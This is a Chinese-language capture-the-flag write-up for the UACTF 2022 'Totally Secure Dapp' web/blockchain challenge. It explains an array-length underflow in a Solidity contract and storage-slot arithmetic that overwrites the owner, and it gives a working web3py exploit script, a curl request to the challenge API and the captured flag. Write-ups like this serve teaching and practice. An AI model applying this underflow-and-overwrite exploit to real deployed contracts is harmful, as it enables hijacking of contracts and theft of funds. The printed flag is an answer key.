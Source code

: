 ```yaml
---
title: Web - Totally Secure Dapp
description: 2022 | UACTF | Web
tags:
    - blockchain
---
```


## 题目

It's on the blockchain, and there's no way anything on the blockchain could ever have any vulnerabilities.

Note, because the contract is on Ropsten, some transactions might fail. If that happens, just keep retrying.

Get test ether from https://faucet.metamask.io/

https://totally-secure-dapp.vercel.app/

[:material-download: `totally-secure-dapp.zip`](static/totally-secure-dapp.zip)

## 解题思路

- https://totally-secure-dapp.vercel.app/ 主要提供了 `New Post` 和展示 Post 的功能，Post 记录上链
- 提供了两份合约代码，Post 相关操作函数位于 `TotallySecureDapp.sol`，当调用者为 `owner` 且合约账户的余额大于 `0.005` 以太时可以触发 `FlagCaptured` 事件

    ```js
    modifier onlyOwner() {
        require(msg.sender == _owner, 'Caller is not the owner');
        _;
    }

    function captureFlag() external onlyOwner {
        require(address(this).balance > 0.005 ether, 'Balance too low');
        _flagCaptured = true;
        emit FlagCaptured(msg.sender);
    }
    ```

- 除此之外，能够调用的函数有 `addPost`、`editPost`、`removePost` 和 `nPost`。注意到 `removePost` 中 `length` 的减法没有使用 `SafeMath` 或在使用前进行判断

    ```js
    function addPost(string title, string content) external {
        Post memory post = Post(title, content);
        _posts.push(post);
        _authors.push(msg.sender);
        emit PostPublished(msg.sender, _posts.length - 1);
    }

    function editPost(
        uint256 index,
        string title,
        string content
    ) external {
        _authors[index] = msg.sender;
        _posts[index] = Post(title, content);
        emit PostEdited(msg.sender, index);
    }

    function removePost(uint256 index) external {
        if (int256(index) < int256(_posts.length - 1)) {
            for (uint256 i = index; i < _posts.length - 1; i++) {
                _posts[i] = _posts[i + 1];
                _authors[i] = _authors[i + 1];
            }
        }
        _posts.length--;
        _authors.length--;
        emit PostRemoved(msg.sender, index);
    }

    function nPosts() public view returns (uint256) {
        return _posts.length;
    }
    ```

- 因为数组长度可控且可编辑指定下标的数组元素，接下来只需要通过 `editPost` 覆盖 `owner` 变量
    - `string` 类型的变量存储方式与 `address` 类型的不同，当长度小于 $32$ 字节时，元素存储在高位，低位存储字符串字节长度，当长度大于 $31$ 字节时，存储方式与数组类似
    - 建议通过 `_authors` 数组完成覆盖操作

    ```js
    // contract Initializable
    bool private _initialized;  // slot 0
    bool private _initializing; // slot 0

    // contract TotallySecureDapp is Initializable
    struct Post {
        string title;
        string content;
    } // 2 slots

    string public _contractId; // slot 1
    address public _owner; // slot 2
    address[] public _authors; // slot 3
    Post[] public _posts; // slot 4
    bool public _flagCaptured; // slot 5
    ```

- 另外，合约 `TotallySecureDapp` 不接受直接转账，所以需要一些特殊手段 >v< 比如 `selfdestruct`

    ```js
    function() external payable {
        revert('Contract does not accept payments');
    }
    ```

- 给 `TotallySecureDapp` 合约实例转账后，通过 web3py 与合约进行交互

    ```py
    from web3 import Web3
    import json, time

    # 在 https://infura.io/ 注册一个账号并创建一个项目可获得 API key
    w3 = Web3(Web3.HTTPProvider("https://ropsten.infura.io/v3/<api-key>"))

    account = w3.eth.account.from_key("<your-private-key>")

    contract_address = "<totallysecuredapp-instance-address>"

    abi = json.loads(open('abi.json').read())
    contract = w3.eth.contract(address=contract_address, abi=abi)

    # 先调用 removePost 使数组长度下溢出
    tx = contract.functions.removePost(1).buildTransaction({"from": account.address, "nonce": w3.eth.getTransactionCount(account.address)})
    signed_tx = account.signTransaction(tx)
    print(w3.eth.sendRawTransaction(signed_tx.rawTransaction).hex())

    time.sleep(30)  # 等待交易确认

    # 修改 owner
    index = 2**256 - int(Web3.soliditySha3(['uint256'], [3]).hex(), 16) + 2
    tx = contract.functions.editPost(index, "unimportant", "unimportant").buildTransaction({"from": account.address, "nonce": w3.eth.getTransactionCount(account.address)})
    signed_tx = account.signTransaction(tx)
    print(w3.eth.sendRawTransaction(signed_tx.rawTransaction).hex())

    time.sleep(30)

    # emit FlagCaptured
    tx = contract.functions.captureFlag().buildTransaction({"from": account.address, "nonce": w3.eth.getTransactionCount(account.address)})
    signed_tx = account.signTransaction(tx)
    print(w3.eth.sendRawTransaction(signed_tx.rawTransaction).hex())
    ```

- [TotallySecureDapp | Address 0x014a2a17aa06c26c660fb4a269ac87849d38fd0a | Etherscan](https://ropsten.etherscan.io/address/0x014a2a17aa06c26c660fb4a269ac87849d38fd0a#events) 可以看到 `FlagCaptured` 事件被成功触发了，但是 Flag 在哪？
- 起初以为是事件的返回值，但查日志也最多只能获得传参。想到是 Web 题，跑去翻了翻源码，发现 `pages/api/secret.ts` 中提供了获取 Flag 的接口，请求参数包括 `userAddress`、`contractAddress` 以及 `userId`

    ```ts
    const { userAddress, contractAddress, userId } = req.body as ReqData;
    ```

    ```ts
    const owner = await contract._owner();
    const flagCaptured = await contract._flagCaptured();
    const balance = await provider.getBalance(contractAddress);
    if (owner === userAddress && flagCaptured && balance.gt(parseEther('0.005'))) {
        const ids = db.collection('users').doc('ids');
        if (!ids) {
            res.status(500).json({ error: 'Failed to load ids' });
            return;
        }
        const id = (await ids.get()).get(userAddress.toLowerCase());
        if (id !== userId) {
            res.status(401).json({ error: 'Unauthorised' });
            return;
        }
        const flag = process.env.FLAG;
        res.status(200).json({ flag: flag });
        return;
    }
    ```

- 合约相关的条件都已满足，还差一个 `userId`，搜了搜源码，在 `components/connector/ConnectModal.tsx` 下找到了

    ```tsx
    window.localStorage.setItem('user-id', id);
    ```

- 在控制台输入 `localStorage.getItem('user-id')` 即可获得对应账户的 `userId`
- 调用 API 接口

```bash
$ curl -d '{"userAddress":"0xe09f6d20E2522F6B971b4516744946CF17BE8432", "contractAddress":"0x014A2a17AA06C26C660FB4A269aC87849d38Fd0A", "userId": "RIHIaESfxzilmF10mmBpH"}' -H "Content-Type: application/json" -X POST https://totally-secure-dapp.vercel.app/api/secret
{"flag":"UACTF{23411y_m394_5u5_f149}"}
```

### Flag

> UACTF{23411y_m394_5u5_f149}